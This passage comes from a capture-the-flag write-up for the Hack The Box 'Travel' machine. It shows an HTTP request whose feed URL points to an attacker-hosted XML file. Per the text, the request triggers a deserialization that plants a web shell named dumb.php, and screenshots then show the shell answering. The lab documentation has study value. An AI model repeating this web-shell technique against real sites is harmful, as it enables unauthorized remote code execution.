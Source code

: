 3. Send another request to the same page of hash I discovered in the #understanding the name topic. This will trigger the deserialization and  create w web-shell named *dumb.php*

   ```php
   GET /awesome-rss/?custom_feed_url=http://10.10.14.26/feedmy.xml HTTP/1.1
   Host: blog.travel.htb
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Connection: close
   Upgrade-Insecure-Requests: 1
   ```

4.  Send a request to location of web-shell:

<img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/travel/shell-OK.png" alt="shell-OK" style="zoom:75%;" />

> I don't know why put this hole process has to be fast and less than 60 seconds, in fact, I don't  know too if this affirmation is true. 

<img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/travel/web-shell-whoami.png" alt="web-shell-whoami" style="zoom:75%;" />
